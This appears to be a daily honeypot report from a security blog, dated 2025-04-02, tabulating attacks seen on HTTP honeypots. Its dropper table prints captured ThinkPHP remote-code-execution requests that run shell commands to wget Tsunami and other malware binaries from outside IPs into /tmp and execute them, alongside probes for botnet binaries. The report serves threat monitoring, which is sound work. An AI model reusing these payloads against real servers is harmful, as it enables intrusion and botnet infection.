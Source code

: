```yaml
---
title: "Report: 2025-04-02 "
date: 2025-04-02
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-04-02
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| JP               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| US               | Dubai              |
| PT               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code).
| remote_addr     | request                                                                                                                                                                                                                                        |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 204.76.203.18   | GET /wget.sh HTTP/1.1                                                                                                                                                                                                                          |
| 88.247.162.58   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1 |
| 106.107.187.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |
| 175.183.33.202  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |
| 45.229.70.202   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 86.132.214.187  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 111.250.55.174  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |
| 86.182.124.14   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 181.170.159.56  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 83.59.11.104    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 113.230.52.190  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |
| 81.36.113.79    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |

## request

List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
|  92 |                     5 | GET /a/b/dlr.x86 HTTP/1.1                                     |
| 269 |                     3 | GET /a/yakuza.mips HTTP/1.1                                   |
| 270 |                     3 | GET /dead/yakuza.m68k HTTP/1.1                                |
| 271 |                     3 | GET /a/b/yakuza.arm4 HTTP/1.1                                 |
| 272 |                     3 | GET /dead/dlr.ppc HTTP/1.1                                    |
| 273 |                     3 | GET /dead/dlr.mips HTTP/1.1                                   |
| 274 |                     3 | GET /dead/yakuza.ppc HTTP/1.1                                 |
| 275 |                     3 | GET /yakuza.arm7 HTTP/1.1                                     |
| 276 |                     3 | GET /a/b/yakuza.mipsel HTTP/1.1                               |
| 277 |                     3 | GET /dead/dlr.arm HTTP/1.1                                    |
| 280 |                     3 | GET /a/yakuza.i686 HTTP/1.1                                   |
| 281 |                     3 | GET /dead/dlr.m68k HTTP/1.1                                   |
| 282 |                     3 | GET /dead/dlr.x86 HTTP/1.1                                    |
| 290 |                     3 | GET /a/b/dlr.sh4 HTTP/1.1                                     |
| 291 |                     3 | GET /a/b/dlr.arm6 HTTP/1.1                                    |
| 382 |                     2 | GET /a/b/dlr.ppc HTTP/1.1                                     |
| 383 |                     2 | GET /a/b/dlr.mpsl HTTP/1.1                                    |
| 445 |                     1 | GET /Odin/http/call1743563690 HTTP/1.1                        |
| 446 |                     1 | GET /OdinHttpCall1743563690 HTTP/1.1                          |
| 447 |                     1 | GET /odinhttpcall1743563690 HTTP/1.1                          |
| 448 |                     1 | \xFA\x19e\x00\x08\x00/00IDED                                  |
| 473 |                     1 | \x00\x0E8\xD8\xAB\x17\xE1\xAE\x1Bv\x8A\x00\x00\x00\x00\x00    |
| 474 |                     1 | \x00\x0E\x08\xD8\xAB\x17\xE1\xAE\x1Bv\x8A\x00\x00\x00\x00\x00 |
| 541 |                     1 | GET /socket.io/1/?t=1743607300798 HTTP/1.1                    |
| 613 |                     1 | GET /Nmap/folder/check1743562087 HTTP/1.1                     |
| 614 |                     1 | GET /NmapUpperCheck1743562087 HTTP/1.1                        |
| 615 |                     1 | GET /nmaplowercheck1743562087 HTTP/1.1                        |

## country_iso_code

List of country names and number of requests received by IPs located in these countries.
|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  1027 | NL                 |
|  1 |                   336 | US                 |
|  2 |                   175 | BG                 |
|  3 |                   162 | GB                 |
|  4 |                    96 | DE                 |
|  5 |                    90 | HK                 |
|  6 |                    84 | PL                 |
|  7 |                    83 | TW                 |
|  8 |                    68 | CN                 |
|  9 |                    56 | PT                 |
| 10 |                    51 | SC                 |
| 11 |                    50 | BE                 |
| 12 |                    49 | BR                 |
| 13 |                    48 | ES                 |
| 14 |                    30 | IN                 |
| 15 |                    24 | KR                 |
| 16 |                    16 | TR                 |
| 17 |                    16 | UA                 |
| 18 |                    12 | NG                 |
| 19 |                     9 | RO                 |
| 20 |                     8 | MN                 |
| 21 |                     8 | JP                 |
| 22 |                     6 | ZA                 |
| 23 |                     6 | CH                 |
| 24 |                     6 | FR                 |
| 25 |                     6 | CA                 |
| 26 |                     5 | SG                 |
| 27 |                     5 | VN                 |
| 28 |                     4 | IT                 |
| 29 |                     3 | AR                 |
| 30 |                     3 | IR                 |
| 31 |                     3 | AZ                 |
| 32 |                     3 | MY                 |
| 33 |                     2 | TH                 |
| 34 |                     2 | AE                 |
| 35 |                     2 | RU                 |
| 36 |                     2 | MC                 |
| 37 |                     2 | AO                 |
| 38 |                     1 | KH                 |
| 39 |                     1 | ID                 |
| 40 |                     1 | LB                 |
| 41 |                     1 | BA                 |
| 42 |                     1 | MK                 |
| 43 |                     1 | MD                 |
| 44 |                     1 | LU                 |
